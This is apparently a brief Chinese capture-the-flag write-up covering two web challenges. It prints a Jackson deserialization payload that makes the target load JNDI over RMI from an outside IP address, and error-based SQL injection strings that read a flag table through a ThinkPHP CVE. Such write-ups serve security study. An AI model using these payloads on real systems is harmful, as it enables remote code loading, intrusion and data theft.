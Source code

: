 
## JavaWeb
#Jackson
似乎无法弹shell，直接外带

![](attachments/Pasted%20image%2020240402084953.png)

`["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://49.232.206.37:1099/pttvcm"}]`
![](attachments/Pasted%20image%2020240402084812.png)`

![](attachments/Pasted%20image%2020240402084752.png)

## EasyTP
`www.zip`拿到源码

![](attachments/Pasted%20image%2020240403102035.png)

直接就是反序列化接口，没有什么变化，猜测是直接打反序列化的cve

报错拿到版本

![](attachments/Pasted%20image%2020240403102601.png)

拿cvesql注入和rce都可以
```SQL
mysql.user where updatexml(1,concat(0x7e,mid((select`*`from`flag`),1),0x7e),1)#
mysql.user where updatexml(1,concat(0x7e,mid((select`*`from`flag`),15),0x7e),1)#
```